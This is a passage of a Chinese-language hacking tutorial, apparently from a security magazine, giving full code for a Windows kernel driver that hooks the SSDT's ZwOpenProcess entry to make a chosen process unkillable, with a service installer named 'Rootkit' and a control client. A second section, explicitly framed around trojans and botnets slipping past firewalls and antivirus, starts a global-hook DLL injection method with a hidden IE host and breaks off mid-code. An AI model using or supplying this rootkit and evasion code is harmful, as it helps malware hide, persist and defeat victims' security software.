            DeviceObjectTemp1 = DeviceObjectTemp1->NextDevice;
            IoDeleteDevice(DeviceObjectTemp2);
        }
    }
    DbgPrint("设备已经卸载\n");
    DbgPrint("驱动卸载完毕\n");
}

NTSTATUS DispatchDeviceControl(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    // IRP_MJ_DEVICE_CONTROL 的响应函数
    NTSTATUS ntStatus = STATUS_SUCCESS;
    ULONG IoControlCode = 0;
    PIO_STACK_LOCATION IrpStack = NULL;
    long* inBuf = NULL;
    char* outBuf = NULL;
    ULONG inSize = 0;
    ULONG outSize = 0;
    PCHAR buffer = NULL;
    PMDL mdl = NULL;

    Irp->IoStatus.Status = STATUS_SUCCESS;
    Irp->IoStatus.Information = 0;
    IrpStack = IoGetCurrentIrpStackLocation(Irp);

    switch (IrpStack->MajorFunction)
    {
    case IRP_MJ_CREATE:
        DbgPrint("IRP_MJ_CREATE 被调用\n");
        break;
    case IRP_MJ_CLOSE:
        DbgPrint("IRP_MJ_CLOSE 被调用\n");
        break;
    case IRP_MJ_DEVICE_CONTROL:
        DbgPrint("IRP_MJ_DEVICE_CONTROL 被调用\n");
        IoControlCode = IrpStack->Parameters.DeviceIoControl.IoControlCode;
        switch (IoControlCode)
        {
        case IOCTL_PROTECT_CONTROL:
            inSize = IrpStack->Parameters.DeviceIoControl.InputBufferLength;
            outSize = IrpStack->Parameters.DeviceIoControl.OutputBufferLength;
            inBuf = (long*)Irp->AssociatedIrp.SystemBuffer;

            DbgPrint("====================\n");
            DbgPrint("IOCTL_PROTECT_CONTROL 被调用,通讯成功\n");
            DbgPrint("输入缓冲区大小: %d\n", inSize);
            DbgPrint("输出缓冲区大小: %d\n", outSize);
            DbgPrint("输入缓冲区内容: %d\n", *inBuf);
            DbgPrint("当前保护进程ID: %ld\n", pid);
            DbgPrint("====================\n");

            strcpy(Irp->UserBuffer, "OK!\n");
            break;
        default:
            break;
        }
        break;
    default:
        DbgPrint("未知请求包被调用\n");
        break;
    }

    ntStatus = Irp->IoStatus.Status;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return ntStatus;
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING theRegistryPath)
{
    // 驱动入口函数
    NTSTATUS ntStatus = STATUS_SUCCESS;
    UNICODE_STRING ntDeviceName;
    UNICODE_STRING DeviceLinkString;
    PDEVICE_OBJECT deviceObject = NULL;
    DbgPrint("驱动程序加载...\n");

    RtlInitUnicodeString(&ntDeviceName, NT_DEVICE_NAME);
    ntStatus = IoCreateDevice(
        DriverObject,
        0,
        &ntDeviceName,
        FILE_DEVICE_UNKNOWN,
        0,
        FALSE,
        &deviceObject);

    if (!NT_SUCCESS(ntStatus))
    {
        DbgPrint("无法创建设备驱动");
        return ntStatus;
    }

    RtlInitUnicodeString(&DeviceLinkString, DOS_DEVICE_NAME);
    ntStatus = IoCreateSymbolicLink(&DeviceLinkString, &ntDeviceName);

    if (!NT_SUCCESS(ntStatus))
    {
        DbgPrint("无法创建驱动设备");
        return ntStatus;
    }

    DriverObject->MajorFunction[IRP_MJ_CREATE] = DispatchDeviceControl;
    DriverObject->MajorFunction[IRP_MJ_CLOSE] = DispatchDeviceControl;
    DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = DispatchDeviceControl;
    DriverObject->DriverUnload = OnUnload;

    DbgPrint("驱动程序已经启动\n");
    DbgPrint("驱动程序加载完毕\n");
    return STATUS_SUCCESS;
}
```

以上就是一个标准的设备驱动代码。这个代码定义了一个通信命令 IOCTL_PROTECT_CONTROL，我们定义这个命令的作用就是传递进 PID。下面我们修改部分代码，来实现 SSDT 的挂钩和进程保护。

```c
#include "ntddk.h"

#define NT_DEVICE_NAME      L"\\Device\\ProtectProcess"
#define DOS_DEVICE_NAME     L"\\DosDevices\\ProtectProcess"

#define IOCTL_PROTECT_CONTROL CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)

NTSTATUS DispatchDeviceControl(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp);
VOID OnUnload(IN PDRIVER_OBJECT DriverObject);

#pragma pack(1)
// SSDT 表的结构
typedef struct ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;
    unsigned int *ServiceCounterTableBase;
    // Used only in checked build
    unsigned int NumberOfServices;
    unsigned char *ParamTableBase;
} ServiceDescriptorTableEntry_t, *PServiceDescriptorTableEntry_t;

#pragma pack()

__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;

// 变量名是不能更改的，因为是从外部导入
// 这个是查询某个函数地址的宏
#define SYSTEMSERVICE(_function) KeServiceDescriptorTable.ServiceTableBase[*(PULONG)((PUCHAR)_function + 1)]

NTSYSAPI NTSTATUS NTAPI ZwOpenProcess(
    OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN PCLIENT_ID ClientId OPTIONAL
);

typedef NTSTATUS (*ZWOPENPROCESS)(
    OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN PCLIENT_ID ClientId OPTIONAL
);

ZWOPENPROCESS OldZwOpenProcess;
long pid = 0;

NTSTATUS NewZwOpenProcess(
    OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN PCLIENT_ID ClientId OPTIONAL
)
{
    // 用来替换的新函数
    NTSTATUS nStatus = STATUS_SUCCESS;
    if ((long)ClientId->UniqueProcess == pid)
    {
        DbgPrint("保护进程 PID:%ld\n", pid);
        return STATUS_ACCESS_DENIED;
    }

    // 剩下的交给原函数
    nStatus = OldZwOpenProcess(ProcessHandle, DesiredAccess, ObjectAttributes, ClientId);
    return STATUS_SUCCESS;
}

VOID OnUnload(IN PDRIVER_OBJECT DriverObject)
{
    // 卸载时会调用
    UNICODE_STRING DeviceLinkString;
    PDEVICE_OBJECT DeviceObjectTemp1 = NULL;
    PDEVICE_OBJECT DeviceObjectTemp2 = NULL;

    DbgPrint("驱动程序卸载...\n");
    RtlInitUnicodeString(&DeviceLinkString, DOS_DEVICE_NAME);
    IoDeleteSymbolicLink(&DeviceLinkString);

    if (DriverObject)
    {
        DeviceObjectTemp1 = DriverObject->DeviceObject;
        while (DeviceObjectTemp1)
        {
            DeviceObjectTemp2 = DeviceObjectTemp1;
            DeviceObjectTemp1 = DeviceObjectTemp1->NextDevice;
            IoDeleteDevice(DeviceObjectTemp2);
        }
    }

    DbgPrint("设备已经卸载\n");
    DbgPrint("修复SSDT表\n");
    (ZWOPENPROCESS)(SYSTEMSERVICE(ZwOpenProcess)) = OldZwOpenProcess;
    DbgPrint("驱动卸载完毕!\n");
}

NTSTATUS DispatchDeviceControl(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    // IRP_MJ_DEVICE_CONTROL 的响应函数
    NTSTATUS nStatus = STATUS_SUCCESS;
    ULONG IoControlCode = 0;
    PIO_STACK_LOCATION IrpStack = NULL;

    long* inBuf = NULL;
    char* outBuf = NULL;
    ULONG inSize = 0;
    ULONG outSize = 0;
    PCHAR buffer = NULL;
    PMDL mdl = NULL;

    Irp->IoStatus.Status = STATUS_SUCCESS;
    Irp->IoStatus.Information = 0;

    IrpStack = IoGetCurrentIrpStackLocation(Irp);
    switch (IrpStack->MajorFunction)
    {
    case IRP_MJ_CREATE:
        DbgPrint("IRP_MJ_CREATE 被调用\n");
        break;
    case IRP_MJ_CLOSE:
        DbgPrint("IRP_MJ_CLOSE 被调用\n");
        break;
    case IRP_MJ_DEVICE_CONTROL:
        DbgPrint("IRP_MJ_DEVICE_CONTROL 被调用\n");
        IoControlCode = IrpStack->Parameters.DeviceIoControl.IoControlCode;
        switch (IoControlCode)
        {
        case IOCTL_PROTECT_CONTROL:
            inSize = IrpStack->Parameters.DeviceIoControl.InputBufferLength;
            outSize = IrpStack->Parameters.DeviceIoControl.OutputBufferLength;
            inBuf = (long*)Irp->AssociatedIrp.SystemBuffer;

            pid = *inBuf;
            DbgPrint("=============================\n");
            DbgPrint("IOCTL_PROTECT_CONTROL 被调用,通讯成功!\n");
            DbgPrint("输入缓冲区大小: %d\n", inSize);
            DbgPrint("输出缓冲区大小: %d\n", outSize);
            DbgPrint("输入缓冲区内容: %ld\n", *inBuf);
            DbgPrint("当前保护进程ID: %ld\n", pid);
            DbgPrint("=============================\n");

            strcpy(Irp->UserBuffer, "OK\n");
            break;
        default:
            break;
        }
        break;
    default:
        DbgPrint("未知请求包被调用\n");
        break;
    }

    nStatus = Irp->IoStatus.Status;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return nStatus;
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING theRegistryPath)
{
    // 驱动入口函数
    NTSTATUS ntStatus = STATUS_SUCCESS;
    UNICODE_STRING ntDeviceName;
    UNICODE_STRING DeviceLinkString;
    PDEVICE_OBJECT deviceObject = NULL;

    DbgPrint("驱动程序加载...\n");
    RtlInitUnicodeString(&ntDeviceName, NT_DEVICE_NAME);
    ntStatus = IoCreateDevice(
        DriverObject,
        0,
        &ntDeviceName,
        FILE_DEVICE_UNKNOWN,
        0,
        FALSE,
        &deviceObject);

    if (!NT_SUCCESS(ntStatus))
    {
        DbgPrint("无法创建驱动设备");
        return ntStatus;
    }

    RtlInitUnicodeString(&DeviceLinkString, DOS_DEVICE_NAME);
    ntStatus = IoCreateSymbolicLink(&DeviceLinkString, &ntDeviceName);
    if (!NT_SUCCESS(ntStatus))
    {
        return ntStatus;
    }

    DriverObject->MajorFunction[IRP_MJ_CREATE] = DispatchDeviceControl;
    DriverObject->MajorFunction[IRP_MJ_CLOSE] = DispatchDeviceControl;
    DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = DispatchDeviceControl;
    DriverObject->DriverUnload = OnUnload;

    DbgPrint("驱动程序已经启动\n");
    DbgPrint("修改SSDT表...\n");

    // 修改 ZwOpenProcess 函数地址
    OldZwOpenProcess = (ZWOPENPROCESS)(SYSTEMSERVICE(ZwOpenProcess));
    (ZWOPENPROCESS)(SYSTEMSERVICE(ZwOpenProcess)) = NewZwOpenProcess;

    DbgPrint("驱动程序加载完毕\n");
    return STATUS_SUCCESS;
}
```

以上斜体部分就是我们新添加的代码，不是很多吧？但是却实现了好几个功能，我们一步一步分析。

```c
DbgPrint("修改SSDT表...\n");
// 修改 ZwOpenProcess 函数地址
OldZwOpenProcess = (ZWOPENPROCESS)(SYSTEMSERVICE(ZwOpenProcess));
(ZWOPENPROCESS)(SYSTEMSERVICE(ZwOpenProcess)) = NewZwOpenProcess;
```

这段代码先是将 ZwOpenProcess（实际就是 NtOpenProcess）的地址保存在 OldZwOpenProcess 里，然后将新函数的地址替换掉 SSDT 表中的 ZwOpenProcess（NtOpenProcess）。当驱动接收到控制命令以后，我们将传入缓冲区的内容保存在变量 pid 里，当调用到 NtOpenProcess 时，调用新函数里我们做相应过滤。

```c
NTSTATUS NewZwOpenProcess(
    OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN PCLIENT_ID ClientId OPTIONAL
)
{
    // 用来替换的新函数
    NTSTATUS nStatus = STATUS_SUCCESS;
    if ((long)ClientId->UniqueProcess == pid)
    {
        DbgPrint("保护进程 PID:%d\n", pid);
        return STATUS_ACCESS_DENIED;
    }

    // 剩下的交给我们的原函数
    nStatus = OldZwOpenProcess(ProcessHandle, DesiredAccess, ObjectAttributes, ClientId);
    return STATUS_SUCCESS;
}
```

到此，我们的驱动程序就编写完了。然后如图3所示的方法编译驱动，我们就会在 sys/i386 目录下产生一个名为 Protect.sys 的驱动文件。

#### 驱动安装

我们直接生成的是 SYS 驱动文件，无法直接双击运行，怎么办呢？常规方法是安装一个系统服务。当然，这里的服务安装后在服务管理器里是看不到的。我写了一个简单的控制台程序，代码如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <process.h>

#define BUF_SIZE 4096

int main(int argc, char* argv[])
{
    char path[BUF_SIZE];
    char base[BUF_SIZE];
    char sername[BUF_SIZE];
    char disname[BUF_SIZE];
    memset(path, 0, BUF_SIZE);
    memset(base, 0, BUF_SIZE);
    memset(sername, 0, BUF_SIZE);
    memset(disname, 0, BUF_SIZE);

    SC_HANDLE rh = NULL;
    SC_HANDLE sh = NULL;
    if (argc == 1)
    {
        printf("use: install/start/uninstall\n");
        exit(0);
    }

    ::GetModuleFileName(0, base, BUF_SIZE);
    int p = strlen(base);
    while (base[p] != '\\') { p--; }
    strncpy(path, base, p + 1);
    memset(base, 0, BUF_SIZE);
    sprintf(base, "%sInstall.ini", path);
    memset(path, 0, BUF_SIZE);

    ::GetPrivateProfileString("Config", "Path", "", path, BUF_SIZE, base);
    ::GetPrivateProfileString("Config", "ServiceName", "", sername, BUF_SIZE, base);
    ::GetPrivateProfileString("Config", "DisplayName", "", disname, BUF_SIZE, base);

    printf("[*]Service Name:%s\n", sername);
    printf("[*]Display Name:%s\n", disname);
    printf("[*]Driver Path:%s\n", path);
    sh = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);

    if (!sh) {
        printf("[-]Error OpenSCManager.\n");
        exit(0);
    }

    if (argc == 2 && !strcmp(argv[1], "install"))
    {
        if (!strcmp(path, ""))
        {
            printf("[-]error read Install.ini\n");
            exit(0);
        }

        rh = CreateService(sh, sername, disname,
            SERVICE_ALL_ACCESS,
            SERVICE_KERNEL_DRIVER,
            // SERVICE_SYSTEM_START,
            SERVICE_DEMAND_START,
            SERVICE_ERROR_NORMAL,
            path,
            NULL, NULL, NULL, NULL, NULL);

        if (!rh)
        {
            printf("[-]error CreateService.\n");
            exit(0);
        }

        printf("[-]Install Service Complete...\n");
    }
    else if (argc == 2 && !strcmp(argv[1], "start"))
    {
        rh = OpenService(sh, sername, SERVICE_ALL_ACCESS);
        if (!rh) {
            printf("error OpenService.\n");
            exit(0);
        }
        StartService(rh, NULL, NULL);
        printf("[-]Start Service Complete...\n");
    }
    else if (argc == 2 && !strcmp(argv[1], "uninstall"))
    {
        rh = OpenService(sh, sername, SERVICE_ALL_ACCESS);
        if (!rh)
        {
            printf("error OpenService.\n");
            exit(0);
        }

        SERVICE_STATUS ss;
        ControlService(rh, SERVICE_CONTROL_STOP, &ss);
        printf("[-]Stop Service Complete...\n");
        DeleteService(rh);
        printf("[-]Delete Service Complete...\n");
    }
    CloseServiceHandle(rh);
    CloseServiceHandle(sh);
    return 1;
}
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <winioctl.h>
#define IOCTL_HELLO_CONTROL CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)

int main(int argc, char* argv[])
{
    long pid = 0;
    char ret[4096];
    DWORD ReBytes = 0;
    HANDLE hDevice = CreateFile("\\\\.\\ProtectProcess", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        if (2 == GetLastError())
        {
            printf("驱动程序未注册\n");
        }
        else
            printf("CreateFile().GetLastError reports %d\n", GetLastError());
        return FALSE;
    }

    memset(ret, 0, 4096);
    printf("请输入需要保护的进程PID:");
    scanf("%ld", &pid);
    DeviceIoControl(hDevice, IOCTL_HELLO_CONTROL, &pid, sizeof(long), ret, 4096, &ReBytes, NULL);

    printf("Return Value:%s\n", ret);

    CloseHandle(hDevice);
    return 1;
}
```

因为我经常要调试不同的驱动，每次改代码都比较麻烦，所以我采用 INI 的方式配置驱动的相关参数，INI 的内容如下：

```ini
[Config]
; 驱动的绝对路径
Path=E:\WDM\Protect\sys\i386\Protect.sys
; 服务名
ServiceName=Rootkit
; 服务显示的名字
DisplayName=RootkitKernel
```

代码我已做了详细注释，就不再解释了。这个程序有 3 个命令，install 用来安装驱动，安装后使用 start 运行驱动，start 用于运行驱动程序，uninstall 用于卸载驱动。

不过安装好程序后还没有完，因为我们的驱动是独立运行的，所以需要再写个程序和它通信，这个任务就简单了，实现代码如下。

\\ProtectProcess 是驱动的设备名，在驱动代码里我写在了代码的开头部分：

`#define NT_DEVICE_NAME L"\\Device\\ProtectProcess"`

`#define DOS_DEVICE_NAME L"\\DosDevices\\ProtectProcess"`

这里的 NT_DEVICE_NAME 就是设备名称了。

#### 运行效果

大功告成，我们来看一下效果。首先，我们安装驱动，如图4所示。然后我们使用 Driver Monitor 查看驱动信息（DriverStudio 的一个组件，用于查看 DbgPrint 输出的调试信息），如图5所示。

| Time | Channel | Message text |
|---|---|---|
| 468.453 | Default | 驱动程序加载... |
| 468.453 | Default | 驱动程序已经启动 |
| 468.453 | Default | 驱动程序加载完毕 |
|  | Monitor | -- end -- |

图4





图5

现在运行我们的控制程序，来保护千千静听（TTPlayer.exe）的进程，PID 为 1836，如图6所示。注意图中 3 个画圈的地方，可以看到和驱动通信成功了。下面我们用任务管理器结束千千静听的进程试试，如图7所示。可以看到拒绝访问，证明我们的进程保护成功了。下面我们卸载掉驱动，卸载完毕后，DriverMonitor 会显示驱动的卸载调试信息，如图8所示。至此，驱动就完美地卸载完成了。

| Time | Channel | Message |
|---|---|---|
| 786.234 | Default | ====================== |
| 1152.531 | Default | 驱动程序卸载... |
| 1152.531 | Default | 设备已经卸载 |
| 1152.531 | Default | 驱动卸载完毕 |
|  | Monitor | -- end -- |

图8



图6

图7

#### 小结

- 1) 很多关于 Rootkit 修改 SSDT 的文章，修改 SSDT 的时候都是使用内存描述符表（MDL）的方式来修改的。我采用了一种更简洁的方法直接赋值，根据测试没有什么不足。当然，本人水平有限，也可能有不足而没有发现，还请高手赐教。
- 2) 当驱动卸载的时候，在 Unload 函数里一定要记得复原 SSDT 表，否则当驱动卸载后，NtOpenProcess 函数的地址就会指向一个不存在的地址，这时会造成系统蓝屏。想当年我初学驱动的时候，蓝屏简直是家常便饭，而且我机子又有 Tomcat、Mssql，而且还安的卡巴，启动起来暴慢，都闷得要死。个人经验，学驱动开发机子少装点东西，尤其是杀毒软件，这样启动起来速度快，嘿嘿~~。
- 3) 设备驱动不用的时候一定要记得卸载，否则根据安装时候的参数决定。CreateService 的参数 SERVICE_DEMAND_START 表示手动启动。如果是参数 SERVICE_SYSTEM_START（代码里我注释起来了）则表示自动启动，开机后自动就运行了。
- 4) 关于 DriverMonitor，虽然是 DriverStudio 其中的一个工具，不过好像单独可以下载到，当然你下个 DriverStudio 更好，里面的很多其他工具也很实用。
- 5) 很多关于驱动开发的书都是说用 DriverStudio 生成框架，效果是一样的，不过结构性要强一些，但是个人觉得 DDK 虽然全部手写，但是更简洁明了。当然，这是个人习惯问题。
- 6) 另外，提一个新手比较容易犯的错误，就是代码的路径里一定不要有空格，比如“E:\WDM\RootKit Program”这种是绝对不行的，因为如果有空格就会破坏掉编译时候的参数。

### 无进程式线程插入

穿墙技术实现

适合读者：编程爱好者

前置知识：VC

先友情提示一下：很多进程保护驱动不是修改 NtOpenProcess，而是修改 NtTerminateProcess 实现的，其中修改后者的话，需要通过句柄获取到 EPROCESS 对象，然后再判断 PID 来实现。

OK，废话不多说，下面进入本文的主题——线程插入穿墙技术。这里提下 2007 年 12 期 icexiaoye 的一篇 Delphi 编写下载者的文章，其中也用到了一个穿墙技术，不过他的技术原理和我的不一样，大家可以相互借鉴学习一下。

#### 引言

我先简单介绍一下穿墙技术和其作用。穿墙技术用得最多的就是在木马里，最早的木马是正向连接的（主动连接），随着时代发展，出现了反向连接的木马（反弹木马），比如比较常见的灰鸽子、PcShare 等，由被控者主动连接控制者，这样就可以随时控制对方计算机，并可以组建成网络（如僵尸网络）。但随着反病毒技术的升级，各种防火墙都会拦截到这种反向连出（实际上一般防火墙连入连出都会提示），这时我们的木马会被拦截下来，不但暴露了目标，而且也无法正常连接，于是就出现了各种穿墙技术。因此，所谓的穿墙就是指穿透防火墙。

穿墙的实现方法很多，比如 2007 年 12 期的那篇文章介绍的方法，原理是在对方进程里开辟一块内存，然后将自己的代码写进去，再远程运行代码。这种方法比较省事，但容易出问题，而且不一定过得了主动防御（一般调用 CreateRemoteThread 好像都会被主动防御拦截）。

本文介绍的方法是一个比较经典的方法，也就是传说中的三级跳实现穿墙方法。这种方法虽然比较麻烦，但比较好用。其主要实现步骤为：创建一个钩子程序，将 DLL 插入到各个进程里；找到宿主进程，然后调用真正的工作 DLL；卸载掉钩子，结束程序。

看到这里也许大家会有个疑问，钩子建立好了不是可以直接插入到进程里吗，何必再另外加载一个 DLL 来工作呢？其实这个想法也没错，不过却忽略了一个问题：如果主 EXE 程序结束了，那么钩子自然就不会存在了。也就是说，如果想直接利用 Hook 的那个 DLL 文件来工作，主程序进程必须一直存在，这样就会暴露我们的木马了。

#### 代码分析

我们先建立一个 MFC 工程，选择 Dialog（其实无所谓，选哪个都一样）。

```cpp
class CWinExeDlg : public CDialog
{
    // Construction
public:
    CWinExeDlg(CWnd* pParent = NULL);
    // standard constructor

    HMODULE hDll;
    // 添加一个全局变量用于保存 DLL 的句柄

    // Dialog Data
    enum { IDD = IDD_WINEXE_DIALOG };
    // NOTE: the ClassWizard will add data members here
};
```


接下来我在 OnInitDialog() 里加载了这个 DLL 文件（DLL 后面写），实现代码如下。

```cpp
BOOL CWinExeDlg::OnInitDialog()
{
    CDialog::OnInitDialog();
    // Add "About..." menu item to system menu.
    // IDM_ABOUTBOX must be in the system command range.
    ASSERT((IDM_ABOUTBOX & 0xFFF0) == IDM_ABOUTBOX);
    ASSERT(IDM_ABOUTBOX < 0xF000);

    CMenu* pSysMenu = GetSystemMenu(FALSE);
    if (pSysMenu != NULL)
    {
        CString strAboutMenu;
        strAboutMenu.LoadString(IDS_ABOUTBOX);
        if (!strAboutMenu.IsEmpty())
        {
            pSysMenu->AppendMenu(MF_SEPARATOR);
            pSysMenu->AppendMenu(MF_STRING, IDM_ABOUTBOX, strAboutMenu);
        }
    }

    // Set the icon for this dialog...
    SetIcon(m_hIcon, TRUE);
    SetIcon(m_hIcon, FALSE);

    h_Dll = LoadLibrary("../../Loader/Debug/Loader.dll");
    if (h_Dll == 0)
    {
        MessageBox("Load Library Error");
        return false;
    }
    return TRUE;
}
```

之后放置一个按钮用于设置钩子，函数名 OnBtnLoader()。

```cpp
void CWinExeDlg::OnBtnLoader()
{
    // ShellExecute(...)
    // WinExec(...)
    // 我注释掉的两行都是隐藏运行 IE 进程作为我们的宿主
}
```

```cpp
typedef void (*LOAD)(HWND);
LOAD Proc = (LOAD)GetProcAddress(h_Dll, "SetHook");
if (Proc == 0)
{
    MessageBox("Get Proc failed");
    return;
}
Proc(m_hWnd); // 执行导出函数
```

当程序退出时，我们卸载掉这个钩子，实现代码如下。

```cpp
void CWinExeDlg::OnClose()
{
    typedef void (*UNLOAD)(void);
    UNLOAD Proc = (UNLOAD)GetProcAddress(h_Dll, "UnHook");
    if (Proc == 0)
    {
        MessageBox("Get Proc failed");
        return;
    }
    Proc();
    FreeLibrary(h_Dll);
    CDialog::OnClose();
}
```

这样我们就完成了主程序的编写，下面才是最重要的一个部分，也就是我们的全局钩子。我新建的工程名为 Loader，类型为 Win32 Dynamic-Link Library，也就是 SDK 的 DLL。我们在里面加个 DllMain 函数（DllMain 相当于 C/C++ 里的 main 函数，一样是第一个执行的函数），实现代码如下。

```cpp
// Loader.h
#include <windows.h>
#include <stdio.h>

// DLL 入口函数
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved);
// GetMessage 回调函数
LRESULT CALLBACK GetMsgProc(int code, WPARAM wParam, LPARAM lParam);

void SetHook(HWND hWnd);
void UnHook();
```

```c
HHOOK hHook;
HINSTANCE hinst;
#pragma data_seg("share")
// 这里建立一个共享段区，用于保存主程序句柄，后面我们就知道用处了
HWND m_hWnd = NULL;
// 共享的数据段（其中的变量必须初始化）
#pragma data_seg()
```

下面是代码的实现部分。

```c
#include "Loader.h"

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    hinst = hinstDLL;
    // 保存HINSTANCE，建立钩子时候要用到

    switch(fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        // MessageBox(NULL, "DLL_PROCESS_ATTACH", "", MB_OK);
        // SetHook();
        // 这里开始是调试时候写的，后来注释掉了
        break;
    case DLL_THREAD_ATTACH:
        // MessageBox(NULL, "DLL_THREAD_ATTACH", "", MB_OK);
        break;
    case DLL_THREAD_DETACH:
